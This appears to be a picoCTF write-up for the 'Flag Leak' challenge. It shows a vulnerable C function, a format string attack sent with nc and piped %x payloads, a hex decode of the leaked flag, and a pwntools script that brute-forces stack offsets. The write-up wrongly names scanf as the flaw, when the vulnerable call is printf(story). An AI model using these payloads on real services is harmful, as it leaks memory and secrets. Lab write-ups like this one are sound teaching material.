

# Flag Leak
## Description
Story telling class 1/2
I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using: `nc saturn.picoctf.net 55829`

## Solution
When looking at the code a particular block of code caught my attention:

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

Here inside the `vuln()` function, the scanf function is used to read the story. The `scanf()` function is vulnerable to a format string attack. This means that we can use the `%` character to print the flag. So i tried that:

```bash
$ nc saturn.picoctf.net 55829
Tell me a story and then I'll tell you one >> %x
Here's a story -
ffa6d250
```

As we can see `ffa6d250` is printed. I tried adding a lot more `%x`'s to see what would happen:

```bash
$ nc saturn.picoctf.net 55829 <<< $(python -c 'print("%x" * 64)')
```

This gave me the following output:




```bash
fff54dc0fff54de08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f355f6b63643631657d313235fbad2000d988c4000f7fed990804c00080494100804c000fff54ea880494182fff54f54fff54f600fff54ec000f7de3ed5
```

Lots of rubbish. But it also looks like there could be something hidden inside the text. I tried cleaning it up a bit by removing the numbers until see a different pattern of characters, looking like hexadecimals:

```bash
# Rubbish
fff54dc0fff54de0804934678257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825257825

# Possible flag
6f6369707b4654436b34334c5f676e3167346c466666305f3474535f355f6b63643631657d313235

# Not sure what this is but its not hexidecimal anymore
fbad2000d988c4000f7fed990804c00080494100804c000fff54ea880494182fff54f54fff54f600fff54ec000f7de3ed5
```

I tried inserting this to cyberchef and got the following [result](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')&input=NmY2MzY5NzA3YjQ2NTQ0MzZiMzQzMzRjNWY2NzZlMzE2NzM0NmM0NjY2NjYzMDVmMzQ3NDUzNWYzNTVmNmI2MzY0MzYzMTY1N2QzMTMyMzUK).

Which is the flag!

## Alternative way (bruteforcing the stack)
I also tried bruteforcing the stack using the following script:

```python
from pwn import *

for i in range(1, 50):
    r = remote('saturn.picoctf.net', 53991)
    r.sendline('%' + str(i) + '$s')
    print('%' + str(i) + '$s')
    print(r.recv())
````

Which gave me the flag at the 24th iteration.
